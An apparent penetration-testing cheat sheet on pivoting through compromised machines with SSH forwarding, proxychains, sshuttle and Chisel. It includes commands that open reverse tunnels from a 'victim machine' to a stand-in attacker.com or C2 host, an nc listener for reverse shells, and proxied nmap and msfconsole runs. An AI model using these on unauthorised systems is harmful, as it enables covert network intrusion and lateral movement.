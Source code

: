 # SSH Tunneling + SSHuttle and Chisel


Used for pivoting

## Local port forwarding
```bash
ssh -v -N -L localPort:targetIp:targetPort user@sshGateway <-i private_key>
```

## Remote port forwarding
* Below is the preparation that is needed to be done on the SSH Server(Pivot)
```bash
sudo echo "GatewayPorts clientspecified" >> /etc/ssh/sshd_config
sudo systemctl restart ssh
```
* Command:
```bash
ssh -R sshGatewayIp:sshGatewayPort:localIp:localPort user@sshGateway
ssh -R 127.0.0.1:2222:127.0.0.1:22 ubuntu@11.22.33.44
```

## Dynamic port forwarding with proxychains
* Has limitations: Produces inaccurate results (i.e. nmap)[^2][^3][^4]

* Proxychains preparation (Change localPort):
```bash
# Normal
sudo echo "socks4 127.0.0.1 localPort" >> /etc/proxychains.conf
```
* Command to establish connection(Basic command is just "-D"):
```bash
ssh -NfD localPort user@sshGateway
```
* Make use of proxychains:
```bash
proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
proxychains msfconsole 
proxychains rdesktop targetIP -u user -p password -g 90%
proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
proxychains firefox
```

## Dynamic port forwarding with SSHuttle
* **Recommended** and does not need root on pivot machine)
* Has limitations: Does not really work with nmap
   * Use a [static nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) instead on the compromised host
   
```bash
sshuttle -v -r user@sshGateway network/netmask

# Using public key authentication:
sshuttle -v -r user@sshGateway network/netmask -e 'ssh -i /path/to/private_key'
```

## Chisel
* **Recommended** and does not need root on pivot machine) [^5]
* Alternative for SSH(Local, Remote and Dynamic) especially on pivoting machines
   * Built on Go
   * Has ready made binary releases on Github which works on a lot of Operating Systems[^6]
   
```bash
# Server (On your attacking machine[Kali])
./chisel server -v -p 8000 --reverse

# Port Forwarding (Commonly on the 1st compromised machine [Pivot Machine])
## Listen on Kali 4444/tcp, forward to 10.10.10.240 port 80
./chisel client -v <YOUR_KALI_IP>:8000 R:4444:10.10.10.240:80

# Remote Forwarding (for reverse connections [i.e. reverse_tcp])
## (Commonly on the 1st compromised machine [Pivot Machine])
## The command below will direct any traffic it receives on 3333/tcp to your Kali 3333/tcp
./chisel client -v <YOUR_KALI_IP>:8000 3333:127.0.0.1:3333
## After the command above, execute the command below on your Kali machine or something similar (.e. exploit/multi/handler)
nc -lnvp 3333
```
* Chisel Socks Proxy
    * Using `reverse` command
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            ./chisel server -v -p 8000 --reverse
            sudo echo "socks5 127.0.0.1 1080" > /etc/proxychains.conf
            ```
        1. On the client/target/victim machine
            ```bash
            chisel.exe client -v <c2/kali_IP>:8000 R:socks
            or
            chisel.exe client -v attacker.com:8000 R:socks
            or
            chisel.exe client -v 192.168.1.5:8000 R:socks
            ```
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
            ssh -NfD 1080 127.0.0.1
            proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
            proxychains msfconsole 
            proxychains rdesktop targetIP -u user -p password -g 90%
            proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
            proxychains firefox
            ```
    * Using `socks5` command
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            ./chisel server -v -p 8000 --socks5
            ```
        1. On the client/target/victim machine
            ```bash
            chisel.exe client -v <c2/kali_IP>:8000 socks
            or
            chisel.exe client -v attacker.com:8000 socks
            or
            chisel.exe client -v 192.168.1.5:8000 socks
            ```
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
            ssh -NfD 1080 127.0.0.1
            proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
            proxychains msfconsole 
            proxychains rdesktop targetIP -u user -p password -g 90%
            proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
            proxychains firefox
            ```
    * TIP
        * If the chisel server is on a cloud C2, and you want to connect from your kali(separate machine)
            * Perform step **c.** on your Kali instead, no need to do it on the chisel server(c2)
                * Just change `ssh -NfD 1080 127.0.0.1` to `ssh -NfD 1080 ubuntu@c2domain.com`


[^1]: [not so pro](https://blog.notso.pro/2019-10-24-tactical-debriefing1/)
[^2]: [MrW0r57](https://mrw0r57.github.io/2020-05-31-linux-post-exploitation-10-4/)
[^3]: [CodeProject - Grant Curell](https://www.codeproject.com/tips/634228/how-to-use-proxychains-forwarding-ports)
[^4]: [NetSec](https://netsec.ws/?p=278)
[^5]: [Download from Github](https://github.com/jpillora/chisel)
[^6]: [0xdf](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
